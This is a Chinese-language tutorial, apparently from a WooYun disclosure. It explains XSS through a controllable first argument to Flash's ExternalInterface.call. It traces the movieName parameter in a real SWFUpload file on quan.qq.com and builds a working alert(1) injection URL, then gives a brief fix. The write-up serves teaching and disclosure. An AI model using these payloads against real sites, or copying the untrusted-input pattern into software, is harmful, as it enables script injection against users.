 # 15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]

# 15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]

> 来源：[15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]](http://www.wooyun.org/bugs/wooyun-2010-016532)

## 简要描述

除了上一节讲到的 `navigateToURL/getURL` 之外呢，另一个经常存在 XSS 缺陷的 as 函数就是 `ExternalInterface.call`，此函数作为 FLASH 与宿主页面 javascript 通信的接口，一般来说，有“2”个参数，第一个参数为所调用 js 函数名，后续的其他参数则为所调用的 js 函 数的参数。那么在参数可控的情况下，不论是第一个参数或是后续参数可控，我们均能加以利用实现 XSS。本节先说一说第一个参数可 控的情况。

1\. 先从程序员的角度说下基础知识，有时候，我们需要在 FLASH 里调用当前页面中的 javascript 函数，例如：一个简单的需求，我们 要在游戏加载完成后，执行弹出 1 的操作。

javascript 代码: `alert(1)`

as 代码 `ExternalInterface.call("alert","1");`

2\. 有的程序员就会觉得，直接弹出 1 太丑了吧。于是他自己写个 js 的函数

```
function myalert(str){
    //显示一个漂亮的浮动层，并且把 str 显示在上面。
} 
```

然后在 as 里 `ExternalInterface.call("myalert","1");`

3\. 又有一天，另外一个程序员觉得上面那个程序员写的东西不错，但是他的 JS 函数名不叫 myalert，于是喊那个程序员改下 as 代码。 于是那个程序员觉得，免得以后老是有人喊我改代码，他就将代码写成了下面这个样子。

```
var func:String=root.loaderInfo.parameters.func; //接受 FLASH 所带的 func 参数 
ExternalInterface.call(func,"1"); 
```

[这样一来，其他想用这个 FLASH 的人，不需要修改 FLASH，只需要调用 FLASH 的时候带上参数即可。 比如我的 JS 函数是 newalert, 我只需要按照下面这么调用： [`some.com/xxx.swf?func=newalert`](http://some.com/xxx.swf?func=newalert)

4\. 上述过程提高了程序的可重用性，为开发人员带来了极大的便利，但是却是缺乏安全考虑的。 攻击者可以采用以下的方式来执行自己的代码

```
http://some.com/xxx.swf?func=(function({alert("hi jack")}) 
```

5\. 为了方便理解，我们可以将

```
ExternalInterface.call("函数名","参数 1"); 
```

看成 JS 里的

```
函数名("参数 1"); 
```

而 FLASH 里实际最后执行的 JS 代码，形式如下（至于下面这句哪里来的，暂时不表）：

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

因而 函数名 部分也可以写为 `(function(){alert("hi jack")})` 的形式。

6\. 上面说的是理论基础，有了这个基础，我们来看实例，就比较简单了。 [`quan.qq.com/swf/swfupload.swf`](http://quan.qq.com/swf/swfupload.swf)

7\. 怎么反编译，见上一篇。我们来看怎么查找缺陷。

8\. 因为这是一个 AS3.0 的 FLASH 文件，我们首先确定 FLASH 是否有接受参数。 as3.0 接受参数的方法，所有参数存放在 `root.loaderInfo.parameters` 对象里。 例如 `aaa.swf?a=1&b=2&c=3` ,那么 `root.loaderInfo.parameters` 则等于

```
{ 
    "a":1,
    "b":2,
    "c":3
} 
```

9\. 我们可以定位到 movieName 变量

![image](img/Image_078.jpg)

可以看出，FLASH 的 movieName 参数，存放到了 this.movieName 中。

10\. 进一步， `this.movieName` 被带入了到了 `this.flashReady_Callback` 及其它变量。

![image](img/Image_079.jpg)

```
this.flashReady_Callback = (("SWFUpload.instances[\"" + this.movieName) + "\"].flashReady"); 
```

11\. 我们再进一步看看，`this.flashReady_Callback` 被用到了哪里。

![image](img/Image_080.jpg)

12\. 再接着看看调用 `this.flashReady_Callback` 的 Simple 函数是啥样子的。

![image](img/Image_081.jpg)

可以看到，最终这个参数被放到 `ExternalInterface.call` 的第一个参数中执行了。

13\. 是不是很激动。我们来假设一下，按下面调用 FLASH [`quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa`](http://quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa) 那么 `this.flashReady_Callback` 就等于以下内容。 `SWFUpload.instances["aaaaaaaa"].flashReady`

最终调用的是 `ExternalInterface.call('SWFUpload.instances["aaaaaaaa"].flashReady');`

14\. 如果我们要调用自己的 JS 代码，就需要构造闭合，但是你会发现有一定问题。。 我们最多能够造成下面的模样。

```
ExternalInterface.call('SWFUpload.instances["aaa"];
function SWFUpload(){};
SWFUpload["aaa"].flashReady'); 
```

但是这样是无法正确执行的，因为 `SWFUpload.instances` 没有被定义，从而 `SWFUpload.instances["aaa"]`会失败。

15\. 怎么办呢？这里就要拿出我们第 5 步里的知识了。我们把“函数名”换成 call 的第一个参数内容。变成下面的形式。

```
try { flash toXML(SWFUpload.instances["aaaaaaaa"].flashReady("参数 1")) ; } catch (e) { "&lt;undefined/&gt;"; } 
```

我们再基于以上代码来构造，

```
try { flash toXML(SWFUpload.instances["aaa"])}catch(e){alert(1)};//"].flashReady("参数 1")) ; } catch (e){ "<undefined/>"; } 
```

图片解析:

![image](img/Image_082.jpg)

```
try {
    flash toXML(SWFUpload.instances["aaa"]) //此行代码，因为 SWFUpload 未定义，出错，跳转到 catch 部分
}catch(e){
    alert(1); //这里将会被执行。
};
//"].flashReady("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

16\. 最后，我们把构造的代码，放进 FLASH 的参数里

```
http://quan.qq.com/swf/swfupload.swf?movieName=aaa"])}catch(e){alert(1)};// 
```

可以看到成功执行 `alert(1)`

![image](img/Image_083.jpg)

修复方案：

对传入 call 的字符串进行判断或过滤操作。